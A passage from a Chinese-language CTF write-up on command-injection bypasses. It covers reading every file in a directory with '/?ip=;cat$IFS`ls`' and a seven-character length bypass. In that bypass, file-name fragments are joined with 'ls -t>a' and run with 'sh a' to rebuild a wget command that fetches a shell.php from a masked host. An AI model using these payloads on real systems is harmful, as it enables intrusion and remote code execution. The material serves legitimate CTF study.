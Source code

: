 [![](assets/1708998334-01c4a0e5208dff1ce061c73ca921ebdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143850-5ebaaff8-d2df-1.png)

**方式三：直接读取整个目录下所有文件**

其实这里还有一种思路就是既然这里对 flag 进行了全匹配且当前目录下仅两个文件，那么我们是否可以直接读取当前目录下的所有文件内容而不用去特定指定 flag.php 文件名呢，答案是可以的，具体实现如下：

```bash
/?ip=;cat$IFS`ls`
```

[![](assets/1708998334-6bf8d727a124cdba9e7df19661462b78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143919-702d655a-d2df-1.png)

#### 七字长度绕过

本题目是由 phith0n 出的一个关于字符长度限制的试题，题目源代码如下所示：

```bash
<?php
    if(strlen($_GET[1])<8){
        echo shell_exec($_GET[1]);
    }
?>
```

从上面的源代码可以看到这里对获取到的参数进行了长度检查，要求长度小于 8，在这里我们可以使用上面提到的标准输入进行解题，具体如下：

```bash
?1=>hp
?1=>ell.p\\
?1=>\ sh\\
?1=>\ -O\\
?1=>xxx\\
?1=>xxx.\\
?1=>xxx.\\
?1=>\ xx\\
?1=>wget\\
?1=ls -t>a
?1=sh a
```
